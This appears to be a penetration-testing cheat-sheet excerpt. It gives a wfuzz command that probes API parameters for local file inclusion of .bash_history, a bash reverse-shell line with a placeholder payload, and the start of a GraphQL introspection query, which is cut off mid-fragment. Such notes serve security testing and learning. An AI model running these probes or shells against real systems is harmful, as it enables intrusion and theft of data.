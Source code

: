 ### API (Applicaton Programmable Interface)
* Check for possibility if there is a v1 , it is likely to be vulnerable to LFI 
* Use `wfuzz` which is tool to fuzz for API end points or for parameter:

    ```bash
    $ wfuzz -u http://<ip>:<port>/<api-endpoint>\?FUZZ\=.bash_history -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404
    ```

    Here `api-endpoint` can be for example `/api/v1/resources/books\?FUZZ\=.bash_history` "?" is before the parameter and FUZZ is telling to find a parameter and we are looking for `.bash_hitory` as an example

### Web Shell Bash
```bash
$ bash -c "<bash_rev_shell>"
```

### GraphQL
- Get metadata about the information available.
    - For older versions:

        ```javascript
        query IntrospectionQuery {
            __schema {
            queryType { name }
            mutationType { name }
            subscriptionType { name }
            types {
                ...FullType
            }
            directives {
                name
                description
                args {
                ...InputValue
                }
                onOperation
                onFragment
                onField
            }
            }
        }

        fragment FullType on __Type {
            kind
            name
            description
            fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
            }
            inputFields {
            ...InputValue
            }
            interfaces {
            ...TypeRef